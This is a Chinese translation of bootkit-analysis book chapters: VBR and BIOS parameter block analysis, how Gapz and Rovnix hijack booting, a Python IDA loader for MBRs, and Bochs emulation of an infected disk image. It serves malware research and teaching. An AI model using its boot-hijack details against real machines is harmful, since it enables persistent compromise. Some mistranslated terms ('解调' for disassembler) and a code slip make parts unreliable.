本节将讨论使用 IDA 进行的 VBR 静态分析方法，重点关注一个关键概念——BIOS 参数块（BPB），它在引导过程和引导程序感染中扮演重要角色。正如我们在 第 7 章 简要说明的那样，VBR 也是引导程序感染的常见目标。在第 12 章 中，我们将详细讨论 Gapz 引导程序，它通过修改 VBR 来实现持久化。Rovnix 书包（在第 11 章 中）同样利用 VBR 进行感染。

你应当像加载 MBR 那样加载 VBR，因为它同样在实模式下执行。将 `samples` 目录中的 `vbr_sample_ch8.bin` 文件作为二进制模块加载到 `0:7C00h` 并以 16 位汇编模式进行 disassembly。

### 分析 IPL

VBR 的主要任务是定位并将 Initial Program Loader（IPL）读取到内存。IPL 在硬盘上的位置由 `BIOS_PARAMETER_BLOCK_NTFS` 结构中指定，该结构在第 5 章 中 讨论过。`BIOS_PARAMETER_BLOCK_NTFS` 直接存储在 VBR 中，包含多个字段，定义 NTFS 卷的几何信息，例如每扇区字节数、每簇扇区数以及主文件表的位置。

`HiddenSectors` 字段表示从硬盘起始处到 NTFS 卷起始处的扇区数，决定了 IPL 的实际位置。VBR 假设 NTFS 卷紧随 VBR 之后，即 IPL 位于 VBR 之后的第一个扇区。因此，VBR 代码通过读取 `HiddenSectors` 字段的值，加 1，然后从计算得到的偏移处读取 `0x2000` 字节（即 16 个扇区）来加载 IPL。加载完成后，VBR 将控制权转移到 IPL。

Listing 8-9 展示了我们示例中的 BIOS 参数块结构的一部分。

```
seg000:000B bpb         dw 200h       ; SectorSize  
seg000:000D             db 8          ; SectorsPerCluster  
seg000:001E             db 3 dup(0)   ; reserved  
seg000:0011             dw 0          ; RootDirectoryIndex  
seg000:0013             dw 0          ; NumberOfSectorsFAT  
seg000:0015             db 0F8h       ; MediaId  
seg000:0016             db 2 dup(0)   ; Reserved2  
seg000:0018             dw 3Fh        ; SectorsPerTrack  
seg000:001A             dw 0FFh       ; NumberOfHeads  
seg000:001C             dd 800h       ; HiddenSectors ➊
```

*Figure 8-9: VBR 的 BIOS 参数块*

`HiddenSectors` ➊ 的值为 `0x800`，这对应于硬盘起始处的活动分区起始偏移（见表 8-2）。这表明 IPL 位于磁盘起始处的偏移 `0x801` 处。引导程序利用此信息在系统启动的早期拦截控制流。例如，Gapz 引导程序通过修改 `HiddenSectors` 字段，使 VBR 读取并执行恶意 IPL 而不是合法的 IPL；而 Rovnix 则通过修改合法 IPL 的代码实现拦截。两者均在系统启动的初始阶段拦截控制权。

### 评估其他引导程序组件

一旦 IPL 获得控制权，它会加载 `bootmgr`，该文件存储在卷的文件系统中。随后，恶意引导加载程序或内核模式驱动等其他引导程序组件可能接管系统。完整分析这些模块超出本章范围，但我们简要概述一些常见方法。

#### 恶意引导加载程序

恶意引导加载程序是引导根套件的重要组成部分。它们的主要用途是通过 CPU 执行模式切换生存下来，绕过 OS 安全检查（如驱动程序签名强制），并加载恶意的内核模式驱动程序。它们实现的功能超出了 MBR 和 VBR 因大小限制所能容纳的范围，并且存储在硬盘的独立位置。引导根套件将它们的引导加载程序存储在隐藏的存储区域，这些区域要么位于硬盘末尾（通常有未使用的磁盘空间），要么位于分区之间的空闲空间中（如果有的话）。

- **16-bit real mode** `Interrupt 13h` hooking functionality
- **32-bit protected mode** `Bypass OS security checks for 32-bit OS version`
- **64-bit protected mode (long mode)** `Bypass OS security checks for 64-bit OS version`

但 IDA Pro 反汇编器无法在单个 IDA 数据库中保持不同模式下的代码已解编，因此你需要为不同的执行模式维护不同版本的 IDA Pro 数据库。

#### Kernel-Mode Drivers

在大多数情况下，引导根套件加载的内核模式驱动程序都是合法的 PE 映像文件。它们实现根套件功能，使恶意软件能够规避安全软件的检测，并提供隐蔽的通信通道等。现代引导根套件通常包含两个版本的内核模式驱动，分别编译为 x86 和 x64 两种平台。你可以使用常规的可执行文件静态分析方法对这些模块进行分析。IDA Pro 在加载这些可执行文件时表现良好，并提供了大量辅助工具和信息用于分析。然而，我们将讨论如何利用 IDA Pro 的特性，通过在加载过程中预处理引导根套件来实现自动化分析。

## 高级 IDA Pro 用法：编写自定义 MBR 加载器

IDA Pro 反汇编器最显著的特点之一是其对各种文件格式和处理器架构的广泛支持。为实现这一点，加载特定类型可执行文件的功能以特殊模块（称为 *loaders*）的形式实现。默认情况下，IDA Pro 包含了多个加载器，覆盖了最常见的可执行文件类型，如 PE（Windows）、ELF（Linux）、Mach-O（macOS）以及固件映像格式。你可以通过查看 `$IDADIR\loaders` 目录的内容来获得可用加载器的列表，其中 `$IDADIR` 是反汇编器的安装目录。该目录中的文件即为加载器，文件名对应平台和二进制格式。文件扩展名的含义如下：

- `ldw` 32 位 IDA Pro 版本的加载器二进制实现
- `l64` 64 位 IDA Pro 版本的加载器二进制实现
- `py` 同时适用于两种版本的 IDA Pro 的 Python 实现

默认情况下，在本章撰写时，MBR 或 VBR 在加载时没有可用的加载器，因此需要手动指示 IDA 将 MBR 或 VBR 当作二进制模块加载。本节展示如何编写一个基于 Python 的自定义 MBR 加载器，该加载器在 16 位解调模式下以地址 `0x7C00` 加载 MBR，并解析分区表。

### 理解 loader.hpp

起点是 `loader.hpp` 文件，它随 IDA Pro SDK 提供，包含大量与加载器相关的信息，定义用于在解调器中加载可执行文件的结构和类型，列出回调例程的原型，并描述它们的参数。根据 `loader.hpp`，下面是需要在加载器中实现的回调函数列表：

- `accept_file` 该例程检查正在加载的文件是否为受支持的格式。
- `load_file` 该例程负责实际加载文件到解调器——即解析文件格式并将文件内容映射到新创建的数据库中。
- `save_file`（可选）如果实现，该例程在执行“File▸Produce File▸Create EXE File”菜单命令后，将解调结果生成可执行文件。
- `move_segm`（可选）如果实现，该例程在用户移动段时执行，主要用于处理段内的重定位信息。由于 MBR 缺乏重定位信息，这里可以省略该例程，但如果为 PE 或 ELF 可执行文件编写加载器则必须保留。
- `init_loader_options`（可选）如果实现，该例程在用户选择特定加载器后，会询问额外的加载参数。由于本例没有特殊选项，同样可以省略。

下面我们来查看自定义 MBR 加载器的实际实现。

### 实现 accept_file

在 `accept_file` 例程中（如 Listing 8-10），我们检查文件是否为主引导记录（MBR）。

```python
def accept_file(li, n):  
    # 检查文件大小  
    file_size = li.size()  
    if file_size < 512:  
        ➊ return 0  
    # 检查 MBR 签名  
    li.seek(510, os.SEEK_SET)  
    mbr_sign = li.read(2)  
    if mbr_sign[0] != '\x55' or mbr_sign[1] != '\xAA':  
        ➋ return 0  
    # 所有检查均通过  
    ➌ return 'MBR'
```

*Listing 8-10: accept_file 实现*

MBR 格式相当简单，因此我们只需进行以下两项检查：

- **文件大小** 文件至少应为 512 字节，这对应硬盘扇区的最小尺寸。
- **MBR 签名** 合法的 MBR 必须以字节 `0xAA55` 结尾。

如果条件满足且文件被识别为 MBR，代码返回加载器名称 ➌；否则返回 0 ➊ ➋。

### 实现 load_file

当 `accept_file` 返回非零值后，IDA Pro 会通过执行 `load_file` 例程来尝试加载文件，该例程实现的步骤如下：

1. 读取整个文件到缓冲区。
2. 创建并初始化一个新的内存段，脚本将在此段中加载 MBR 内容。
3. 将 MBR 的起始地址设为解调的入口点。
4. 解析 MBR 中包含的分区表。

`load_file` 的实现如下 Listing 8-11。

```python
def load_file(li):  
    # 选择 PC 处理器模块  
    ➊ idaapi.set_processor_type("metapc", SETPROC_ALL|SETPROC_FATAL)  
    # 读取 MBR 到缓冲区  
    ➋ li.seek(0, os.SEEK_SET); buf = li.read(li.size())  
    mbr_start = 0x7C00        # 段的起始地址  
    mbr_size = len(buf)       # 段的大小  
    mbr_end   = mbr_start + mbr_size  
    # 创建段  
    ➌ seg = idaapi.segment_t()  
    seg.startEA = mbr_start  
    seg.endEA   = mbr_end  
    seg.bitness = 0 # 16-bit  
    ➍ idaapi.add_segm_ex(seg, "seg0", "CODE", 0)  
    # 复制字节  
    ➎ idaapi.mem2base(buf, mbr_start, mbr_end)  
    # 添加入口点  
    idaapi.add_entry(mbr_start, mbr_start, "start", 1)  
    # 解析分区表  
    ➏ struct_id = add_struct_def()  
    struct_size = idaapi.get_struc_size(struct_id)  
    ➐ idaapi.doStruct(start + 0x1BE, struct_size, struct_id)
```

*Listing 8-11: load_file 实现*

首先，将 CPU 类型设置为 `metapc` ➊，它对应于通用 PC 系列，指示 IDA 按 IBM PC 字节码对二进制进行反汇编。然后，将引导记录 (MBR) 读取到缓冲区 ➋，并通过调用 `segment_t` API ➌ 创建一个内存段。此调用分配一个空结构，`seg`，用于描述要创建的段。随后，填充实际字节值。将段的起始地址设置为 `0x7C00`，如同在“Loading the MBR into IDA Pro”中所述的那样，并在 page 96 上设置其大小为 MBR 对应的大小。同时，通过将结构的位宽标志设置为 0 来告知 IDA 该新段为 16 位段（注意：1 表示 32 位段，2 表示 64 位段）。随后，调用 `add_segm_ex` API ➍，向数据库中添加新段。`add_segm_ex` API 接收以下参数：描述段的结构体、段名称（`seg0`）、段类 `CODE` 以及标志，默认为 0。在此调用之后 ➎，将 MBR 内容复制到新建段中，并添加一个入口点标记。

接下来，通过调用 `doStruct` API ➐ 对 MBR 中的分区表进行自动解析，参数包括：分区表起始地址、表的字节大小以及希望将表强制转换为的结构标识符。我们的加载器中实现的 `add_struct_def` 例程 ➏ 创建了该结构，并导入定义分区表的结构 `PARTITION_TABLE_ENTRY` 到数据库中。

### 创建分区表结构

Listing 8-12 定义了 `add_struct_def` 例程，用于创建 `PARTITION_TABLE_ENTRY` 结构。

```python
def add_struct_def():  
    # add structure PARTITION_TABLE_ENTRY to IDA types  
    sid_partition_entry = AddStrucEx(-1, "PARTITION_TABLE_ENTRY", 0)  
    # add fields to the structure  
    AddStrucMember(sid_partition_entry, "status", 0, FF_BYTE, -1, 1)  
    AddStrucMember(sid_partition_entry, "chsFirst", 1, FF_BYTE, -1, 3)  
    AddStrucMember(sid_partition_entry, "type", 4, FF_BYTE, -1, 1)  
    AddStrucMember(sid_partition_entry, "chsLast", 5, FF_BYTE, -1, 3)  
    AddStrucMember(sid_partition_entry, "lbaStart", 8, FF_DWORD, -1, 4)  
    AddStrucMember(sid_partition_entry, "numSectors", 12, FF_DWORD, -1, 4)  
    return sid_partition_entry
```

*Listing 8-12: 创建 PARTITION_TABLE_ENTRY 结构*

# 第 9 章：动态分析引导程序代码

你在“第 8 章”中看到静态分析是引导程序反向工程的强大工具。但在某些情况下，它可能无法提供你所需的信息，因此你需要使用 `dynamic analysis` 技术。这在包含加密组件的引导程序中尤其常见，而解密过程困难，或者在像 Rovnix 这样的引导程序中（在 `第 11 章` 中讨论），这些引导程序在执行时使用多个钩子来禁用操作系统保护机制。静态分析工具不总能告诉你引导程序修改了哪些模块，在这种情况下，dynamic analysis 更为有效。

Dynamic analysis 通常依赖于被分析平台的调试设施，但预启动环境并不提供常规的调试设施。在预启动环境中进行调试通常需要特殊的硬件、软件和知识，这使得任务变得具有挑战性。

为了克服这一障碍，我们需要一个额外的软件层——要么是 **emulator**（模拟器），要么是 **virtual machine (VM)**（虚拟机）。模拟和虚拟化工具使我们能够在受控的预启动环境中运行引导代码，并使用常规的调试接口。

在本章中，我们将探讨两种动态引导程序分析方法——具体来说，使用 **Bochs** 进行模拟，以及使用 **VMware Workstation** 进行虚拟化。这两种方法相似，都能让研究人员在代码执行的瞬间观察引导代码的行为，提供对被调试代码相同程度的洞察，并允许相同的 CPU 寄存器和内存访问。

两种方法的区别在于实现方式。Bochs 模拟器解释代码，以在虚拟 CPU 上完全模拟；而 VMware Workstation 则利用真实的物理 CPU 来执行大多数客户机操作系统的指令。

本章使用的引导程序分析组件可在书籍资源的 `https://nostarch.com/rootkits/` 处获取。你需要 `mbr.mbr` 文件中的 MBR，以及 `partition0.data` 文件中的 VBR 和 IPL。

## 使用 Bochs 进行模拟

Bochs（`http://bochs.sourceforge.net/`）发音为“box”，是一个开源的 Intel x86-64 平台模拟器，能够模拟整台计算机。我们感兴趣的点是它提供了一个能够跟踪被模拟代码的调试接口，因此可以用它来调试预启动环境中执行的模块，如 MBR 和 VBR/IPL。Bochs 以单个用户进程的形式运行，无需安装内核模式驱动或任何特殊的系统服务来支持被模拟环境。

其他工具，如开源模拟器 QEMU（`http://wiki.qemu.org/Main_Page`），功能与 Bochs 相同，也可用于引导程序分析。但我们选择 Bochs 而非 QEMU，因为在我们广泛的经验中，Bochs 在 Windows 平台上与 Hex-Rays IDA Pro 的集成更好。Bochs 架构更紧凑，专注于模拟 x86/x64 平台，并且内置调试接口，无需使用 IDA Pro 即可进行引导代码调试（尽管其性能在与 IDA Pro 配合使用时会得到提升，我们将在“结合 Bochs 与 IDA”章节中展示）。

值得注意的是，QEMU 更高效，支持更多架构，包括 ARM 架构。QEMU 使用内置的 GNU 调试器（GDB）接口，这也为在 VM 启动早期进行调试提供了机会。因此，如果你想在本章之后进一步探索调试，QEMU 可能值得一试。

### 安装 Bochs

你可以从 `https://sourceforge.net/projects/bochs/files/bochs/` 下载 Bochs 的最新版本。你有两个下载选项：Bochs 安装程序和包含 Bochs 组件的 ZIP 归档。安装程序包含更多组件和工具——包括我们稍后讨论的 `bximage` 工具——因此我们建议下载安装程序而非 ZIP 归档。安装过程很简单：点击通过步骤并保留默认参数值即可。在本章中，我们将指代 Bochs 安装目录为 `Bochs working directory`。

### 创建 Bochs 环境

要使用 Bochs 模拟器，首先需要创建一个环境，该环境由一个 Bochs 配置文件和一个磁盘映像组成。配置文件是文本文件，包含模拟器执行所需的所有信息（如使用哪个磁盘映像、CPU 参数等），而磁盘映像包含要模拟的客户机操作系统和引导模块。

#### 创建配置文件

Listing 9-1 展示了用于引导程序调试的最常用参数，我们将在本章中使用该配置文件。打开一个新文本文件并输入 Listing 9-1 的内容。或者，如果你更喜欢，可以使用书籍资源中提供的 `bochsrc.bxrc` 文件。你需要将该文件保存在 Bochs 工作目录中，并命名为 `bochsrc.bxrc`。`.bxrc` 扩展名表示该文件包含 Bochs 的配置参数。

```
megs: 512  
romimage: file="../BIOS-bochs-latest" ➊  
vgaromimage: file="../VGABIOS-lgpl-latest" ➋  
boot: cdrom, disk ➌  
ata0-master: type=disk, path="win_os.img", mode=flat, cylinders=6192, heads=16, spt=63 ➍  
mouse: enabled=0 ➎  
cpu: ips=90000000 ➏
```

*Listing 9-1: 示例 Bochs 配置文件*

第一个参数 `megs` 设置模拟环境的内存上限（以兆字节为单位）。对于我们的引导代码调试需求，512MB 已经足够。`romimage` 参数 ➊ 和 `vgaromimage` 参数 ➋ 指定用于模拟环境的 BIOS 和 VGA-BIOS 模块的路径。Bochs 自带默认 BIOS 模块，但如果需要（例如在固件开发中）可以使用自定义模块。由于我们的目标是调试 MBR 和 VBR 代码，我们将使用默认 BIOS 模块。`boot` 选项指定启动设备序列 ➌。根据上述设置，Bochs 首先尝试从 CD-ROM 设备启动，如果失败则转到硬盘启动。下一个选项 `ata0-master` 指定要由 Bochs 模拟的硬盘类型和特性 ➍。它包含以下参数：

- `type` 设备类型，要么是 disk，要么是 cdrom。
- `path` 主机文件系统中的磁盘映像文件路径。
- `mode` 图像类型，仅对磁盘设备有效，我们将在“结合 Bochs 与 IDA”章节中详细讨论。
- `cylinders` 磁盘的柱面数，用于定义磁盘大小。
- `heads` 磁盘的磁头数，用于定义磁盘大小。
- `spt` 每磁道的扇区数，用于定义磁盘大小。

> **NOTE**
>
> *在下一节中，你将看到如何使用 Bochs 附带的 `bximage` 工具创建磁盘映像。创建新映像后，`bximage` 会输出你在 `ata0-master` 选项中需要提供的参数。*

#### 创建磁盘映像

要为 Bochs 创建磁盘映像，您可以使用 Unix 中的 `dd` 实用程序或 Bochs 模拟器提供的 `bximage` 工具。我们选择 `bximage`，因为它可以在 Linux 和 Windows 机器上使用。

打开 `bximage` 磁盘映像创建工具。启动后，`bximage` 会显示一个选项列表，如 Figure 9-1 所示。输入 1 来创建新映像 ➊。

工具随即询问是否要创建软盘或硬盘映像。我们在此指定 `hd` ➋ 来创建硬盘映像。随后，它会询问要创建的磁盘图像类型。通常，磁盘图像的类型决定了该图像在文件中的布局。工具可以创建多种类型的磁盘映像；完整的支持类型列表请参阅 Bochs 文档。我们选择 `flat` ➌ 以生成一个单一文件的扁平布局磁盘映像。这意味着文件中的偏移对应磁盘上的偏移，从而便于编辑和修改映像。



*Figure 9-1: 使用 bximage 工具创建 Bochs 磁盘映像*

接下来，我们需要指定磁盘大小（以兆字节为单位）。所提供的值取决于您使用 Bochs 的目的。如果您想在磁盘映像上安装操作系统，磁盘大小必须足够容纳所有操作系统文件。相反，如果磁盘映像仅用于调试引导代码，10 MB ➍ 的大小即可。

最后，`bximage` 会提示输入映像名称——即在主机文件系统中保存映像文件的路径 ➎。如果仅提供文件名而不提供完整路径，文件将保存在与 Bochs 同一目录下。输入文件名后，Bochs 会创建磁盘映像并输出一个配置字符串 ➏，您需要将其粘贴到 `ata0-master` 行的 Bochs 配置文件中（Listing 9-1）。为避免混淆，建议在 `bximage` 中提供完整路径，或将新建的映像文件复制到配置文件所在目录。这样可以确保 Bochs 能够找到并加载映像文件。

#### 感染磁盘映像

创建磁盘映像后，我们可以开始将引导根包（bootkit）感染到磁盘中。有两种方式可供选择。第一种是先在 Bochs 磁盘映像上安装一个客户机操作系统，然后在客户机环境中执行引导根包感染工具。执行时，恶意软件会在磁盘映像上安装引导根包。此方式能够进行更深入的恶意软件分析，因为恶意软件会在客户机系统上安装所有组件，包括引导根包和内核模式驱动程序。但也有部分缺点：

- 先前创建的磁盘映像必须足够大，以容纳操作系统。
- 在操作系统安装和恶意软件执行期间对指令的模拟会显著增加执行时间。
- 部分现代恶意软件实现反模拟功能，即在检测到正在运行于模拟器时会直接退出，而不会感染系统。

鉴于这些原因，我们选择第二种方式：直接从恶意软件中提取引导根包组件（MBR、VBR 和 IPL），并将其写入磁盘映像。此方式只需要更小的磁盘大小，并且执行速度更快。但也意味着我们无法观察和分析恶意软件的其他组件（如内核模式驱动程序）。此方法还需要对恶意软件及其架构有一定的先备了解。因此，选择此方式的另一个原因是它能够在 Bochs 动态分析环境中提供更深入的洞察。

##### 写入 MBR 到磁盘映像

请确保已从 *[`nostarch.com/rootkits/`](https://nostarch.com/rootkits/)* 下载并保存 `mbr.mbr` 代码。Listing 9-2 展示了将恶意 MBR 写入磁盘映像的 Python 代码。将其复制到文本编辑器并保存为外部 Python 文件。

```python
# 从文件读取 MBR  
mbr_file = open("path_to_mbr_file", "rb") ➊  
mbr = mbr_file.read()  
mbr_file.close()  

# 将 MBR 写入磁盘映像的开头  
disk_image_file = open("path_to_disk_image", "r+b") ➋  
disk_image_file.seek(0)  
disk_image_file.write(mbr) ➌  
disk_image_file.close()
```

*Listing 9-2: 将 MBR 代码写入磁盘映像*

在此示例中，将 `path_to_mbr_file` ➊ 替换为 MBR 文件的实际路径，将 `path_to_disk_image` ➋ 替换为磁盘映像的实际路径，然后保存代码为带 `.py` 扩展名的文件。运行 `python path_to_the_script_file.py`，Python 解释器会在 Bochs 中执行该代码。我们已经在 ➌ 步骤中将 MBR 写入磁盘映像。MBR 中的分区表仅包含一个活动分区（编号 0），如 Table 9-1 所示。

**Table 9-1: MBR 分区表**

| **分区编号** | **类型** | **起始扇区** | **分区大小（扇区）** |
|---|---|---|---|
| 0 | `0x80`（引导扇区） | `0x10` ➊ | `0x200` |
| 1 | 无分区 | 0 | 0 |
| 2 | 无分区 | 0 | 0 |
| 3 | 无分区 | 0 | 0 |

接下来，我们需要将 VBR（卷引导区）和 IPL（引导程序加载器）写入磁盘映像。请确保已从 *[`nostarch.com/rootkits/`](https://nostarch.com/rootkits/)* 下载并保存 `partition0.data` 代码。我们需要在 Table 9-1 中指定的偏移 ➊ 处写入这些模块，该偏移对应活动分区的起始偏移。

##### 写入 VBR 与 IPL 到磁盘映像

要在磁盘映像上写入 VBR 与 IPL，请在文本编辑器中粘贴 Listing 9-3 的代码并保存为 Python 脚本。

```python
# 从文件读取 VBR 与 IPL  
vbr_file = open("path_to_vbr_file", "rb") ➊  
vbr = vbr_file.read()  
vbr_file.close()  

# 将 VBR 与 IPL 写入偏移 0x2000  
disk_image_file = open("path_to_disk_image", "r+b") ➋  
disk_image_file.seek(0x10 * 0x200)  
disk_image_file.write(vbr)  
disk_image_file.close()
```

*Listing 9-3: 将 VBR 与 IPL 写入磁盘映像*

与 Listing 9-2 类似，将 `path_to_vbr_file` ➊ 替换为包含 VBR 的文件路径，将 `path_to_disk_image` ➋ 替换为磁盘映像的路径后运行脚本。

执行脚本后，磁盘映像即准备在 Bochs 中调试。我们已成功在磁盘映像上写入恶意 MBR 与 VBR/IPL，并可以在 Bochs 调试器中对其进行分析。

#### 使用 Bochs 内置调试器

Bochs 调试器是独立的应用程序 `bochsdbg.exe`，提供命令行界面。我们可以利用 Bochs 调试器支持的功能——如断点、内存操作、跟踪和汇编——来检查引导代码的恶意行为或解密多态 MBR 代码。要启动调试会话，在命令行中以路径方式调用 `bochsdbg.exe` 并指定 Bochs 配置文件 `bochsrc.bxrc`，例如：

```
bochsdbg.exe -q -f bochsrc.bxrc
```

此命令会启动虚拟机并打开调试控制台。首先，设置断点以在引导代码的起始处停止执行，从而能够在 MBR 代码开始前进行分析。MBR 的第一条指令位于地址 `0x7c00`，输入 `lb 0x7c00` 即可设置断点。随后使用 `c` 命令启动执行，如 Figure 9-2 所示。要查看当前地址的汇编指令，使用 `u` 命令；例如，Figure 9-2 通过 `u /10` 显示了前 10 条汇编指令。



*Figure 9-2: Bochs 调试器命令行界面*

你可以通过输入 `help` 或访问文档 [`bochs.sourceforge.net/doc/docbook/user/internal-debugger.html`](http://bochs.sourceforge.net/doc/docbook/user/internal-debugger.html) 获取完整的调试器命令列表。以下是一些常用的命令：

- `c` 继续执行。
- `s [count]` 执行 `count` 条指令（单步）；默认值为 1。
- `q` 退出调试器并停止执行。
- `CTRL-C` 停止执行并返回到命令行提示符。
- `lb addr` 设置线性地址指令断点。
- `info break` 显示当前所有断点的状态。
- `bpe n` 使断点 n 启用。
- `bpd n` 使断点 n 禁用。
- `del n` 删除断点 n。

虽然可以单独使用 Bochs 调试器进行基本的动态分析，但将其与 IDA 结合使用后功能更强大，因为 IDA 的代码导航远胜于批量调试模式。在 IDA 会话中，我们还可以对生成的 IDA Pro 数据库文件进行静态分析，并使用去反编译等功能。

### 结合 Bochs 与 IDA

现在我们已经准备好一个已感染的磁盘镜像，接下来启动 Bochs 并开始 emulate。从版本 5.4 开始，IDA Pro 提供了针对 DBG 调试器的前端，我们可以将其与 Bochs 配合使用来调试客户机操作系统。要在 IDA Pro 中启动 Bochs 调试器，打开 IDA Pro 并选择 **Debugger**▸**Run**▸**Local Bochs debugger**。

随后会弹出一个对话框，要求输入一些选项，如 Figure 9-3 所示。在 Application 字段中，指定你之前创建的 Bochs 配置文件的路径。



*Figure 9-3: 指定 Bochs 配置文件的路径*

接下来，我们需要设置一些选项。点击 **Debug options**，然后选择 **Set specific options**。你会看到如 Figure 9-4 所示的对话框，提供了 Bochs 操作模式的三种选择：

- **Disk image** 启动 Bochs 并执行磁盘镜像。
- **IDB** 在 Bochs 内 emulate 选定代码片段。
- **PE** 在 Bochs 内加载并 emulate PE 映像。



*Figure 9-4: 选择 Bochs 操作模式*

在我们的案例中，选择 **Disk image** ➊，让 Bochs 加载并执行我们之前创建并感染的磁盘镜像。

随后，IDA Pro 会以我们指定的参数启动 Bochs，并且由于我们 earlier 设置的断点，程序会在 MBR 的第一条指令地址 `0000:7c00h` 处停下来。我们可以使用 IDA Pro 标准的调试器界面进行调试（参见 Figure 9-5）。

